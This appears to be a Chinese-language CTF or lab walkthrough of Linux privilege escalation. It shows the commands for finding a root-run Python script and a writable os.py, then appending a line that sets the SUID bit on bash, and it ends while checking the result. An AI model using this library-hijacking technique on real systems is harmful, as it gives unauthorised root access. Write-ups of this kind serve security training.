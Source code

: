 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现root用户在后台运行py脚本，来看看这个脚本执行了哪些内容

```
cd /opt  
ls  
cat important.py
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

脚本内执行了导入os库，其他内容都被 注释掉了下面的3个command命令是在提示，

命令1：为/bin/bash添加suid权限；

命令2：执行/bin/bash -p 提权

命令3：验证是否提权成功

由于只导入了os库，那我们只能从这个库入手了，先找一下库的位置

```
find / -name os.py 2>/dev/null
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

检查是否能修改

```
ls -al /usr/lib/python2.7/os.py
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

有写入权限 ，来按提示操作一下

```


which bash

  

echo 'import os;os.system("/usr/bin/chmod 4755 /usr/bin/bash")' >> /usr/lib/python2.7/os.py
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

然后等待几分钟内，检查bash是否添加s权限

```
ls -al /bin/bash
```
